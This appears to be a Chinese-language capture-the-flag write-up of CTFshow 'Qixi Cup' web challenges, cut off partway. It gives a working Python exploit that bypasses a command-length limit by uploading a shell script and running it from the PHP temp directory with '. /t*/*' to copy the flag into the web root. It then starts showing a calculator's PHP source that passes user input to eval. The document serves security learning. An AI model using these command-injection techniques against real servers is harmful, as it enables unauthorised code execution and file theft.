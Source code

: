 # CTFSHOW 七夕杯Web复现



hhh，玩一下这个七夕杯



### web1 签到

打开题目如下：

![](https://i.imgur.com/Iv4SWVo.png)


能够执行短命令，但是不会回显。查看网页的源代码发现了前端javascript限制了输入命令的长度。

以为直接burpsuite抓包绕过即可，没想到还是提示命令过长，所以后端应该也有一个校验，或者这个js就是后端的代码。

答案思路：向服务器上传一个文件，然后执行这个临时文件即可。

考察点：会编写基本的shell脚本，知道临时文件路径。果然是签到题！

```python
import requests
url = "http://085e31eb-e3d0-4783-90dd-bb6189d2df1a.challenge.ctf.show/"
def get_flag(url):
    file = {
        "test": "#!/bin/bash\ncat /f*>/var/www/html/1.txt"
    }
    data = {
        "cmd": ". /t*/*"
    }
    r = requests.post(url=url+"api/tools.php",files=file,data=data)
    if "t*" in r.text:
        print("1")
    r = requests.get(url=url+"1.txt")
    if r.status_code == 200:
        print(r.text)
    else :
        print("fail")

if __name__ == '__main__':
    get_flag(url)

```



### easy_calc

```php
<?php


if(check($code)){

    eval('$result='."$code".";");
    echo($result);    
}

function check(&$code){

    $num1=$_POST['num1'];
    $symbol=$_POST['symbol'];
    $num2=$_POST['num2'];

    if(!isset($num1) || !isset($num2) || !isset($symbol) ){
        
```